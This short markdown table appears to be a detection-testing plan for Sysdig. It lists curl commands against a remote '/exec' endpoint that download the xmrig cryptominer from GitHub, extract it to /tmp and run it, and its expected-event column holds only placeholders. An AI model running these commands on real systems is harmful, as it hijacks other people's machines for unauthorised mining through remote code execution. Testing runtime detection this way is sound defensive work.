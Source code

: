 # Steal Compute / Run Cryptominer Data flow

| Attack Step | Curl Command | Expected Sysdig Event |
|---|---|--|
| Download xmrig | `curl -X POST http://192.168.1.15/exec -d 'command=wget https://github.com/xmrig/xmrig/releases/download/v6.18.1/xmrig-6.18.1-linux-static-x64.tar.gz -O xmrig.tar.gz -O /tmp/xmrig.tar.gz'` | xxx |
| Extract xmrig | `curl -X POST http://192.168.1.15/exec -d 'command=tar -xzvf /tmp/xmrig.tar.gz -C /tmp/'` | xxx |
| Run xmrig | `curl -X POST http://192.168.1.15/exec -d 'command=/tmp/xmrig-6.18.1/xmrig'` | xxx |
